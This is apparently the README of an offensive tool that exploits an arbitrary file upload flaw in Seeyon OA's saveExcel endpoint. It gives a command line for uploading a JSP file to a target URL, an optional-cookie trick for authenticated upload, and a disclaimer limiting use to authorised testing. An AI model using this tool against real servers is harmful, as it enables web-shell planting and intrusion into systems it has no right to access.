 # seeyon_saveExcel
致远OA_saveExcel任意文件上传exp (2023/06版本修复) 

# Usage
```
Usage：go run seeyon_saveExcel.go -u http://xx.xx.xx.xx -f xx.jsp (-c)
```

```
Options:
  -c string
        cookie [Optional]
        
  -f string
        file [Required]
        
  -u string
        target url [Required]
```
# 利用截图

有可能存在漏洞接口但上传不成功的情况，可添加任意用户cookie进行后台上传

![image](https://github.com/Pizz33/seeyon_saveExcel/assets/88339946/abf8f0be-51c6-44aa-9b57-325619811965)

![image](https://github.com/Pizz33/seeyon_saveExcel/assets/88339946/eed48758-2c5c-4b17-9c5b-944561862d0a)

# 声明

仅限用于技术研究和获得正式授权的攻防项目，请使用者遵守《中华人民共和国网络安全法》，切勿用于任何非法活动，若将工具做其他用途，由使用者承担全部法律及连带责任，作者及发布者不承担任何法律及连带责任！
